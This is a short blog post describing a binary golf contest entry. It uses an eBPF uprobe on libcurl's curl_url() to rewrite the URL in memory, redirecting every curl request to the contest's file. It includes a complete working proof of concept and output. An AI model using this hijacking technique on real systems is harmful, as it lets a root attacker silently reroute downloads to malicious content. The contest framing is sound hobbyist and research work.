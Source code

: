 ```yaml
---
title: "bggp4"
date: 2024-06-26T12:09:09-04:00
author: hyp
draft: false
---
```


## eBPF Filter

For my (first) bggp4 entry, I wanted to do something with process injection. I decided to target cURL for obvious reasons.

I initially started off exploring what I could do with PTRACE, however the binary produced was pretty large (around 14kb) and I didnot have a good way of detecting when new curl processes started and attaching to them.

Thinking more about the problem of detecting newly started processes, I decided to look into eBPF as an option. This turned out to be a good option for both the process detection and reading/writing from process memory.

## Overwriting the URL passed to cURL

During my initial attempts with PTRACE, I discovered that cURL will eventually make a call to curl_url() with the RDX register set to the URL that was passed to cURL through command line arguments. So by attaching a uprobe to the curl_url() function in the libcurl shared library object, I could overwrite the value for RDX, essentially redirecting cURL to the URL of choice.

## PoC
```
import sys
from bcc import BPF
BPF(text="""#include <uapi/linux/ptrace.h> 
void c(struct pt_regs *ctx) {char b[24] = "https://binary.golf/5/5";
bpf_probe_write_user((void *)ctx->dx, b, 24);
};""").attach_uprobe(name=sys.argv[1], sym="curl_url", fn_name="c")
while 1:1
```
This PoC requires bcc for the eBPF python bindings and takes the path to libcurl's shared object file as an argument

```
root@hop:~/bggp/py# python3 g5.py /usr/lib/x86_64-linux-gnu/libcurl.so.4
```

Any cURL executions that take place while this filter is running should redirect to the https://binary.golf/5/5 url and download/display the file contents.

```
hyp@hop:~$ curl https://google.com
Another #BGGP5 download!! @binarygolf https://binary.golf
hyp@hop:~$ curl https://test.test.test
Another #BGGP5 download!! @binarygolf https://binary.golf
hyp@hop:~$ 
``` 
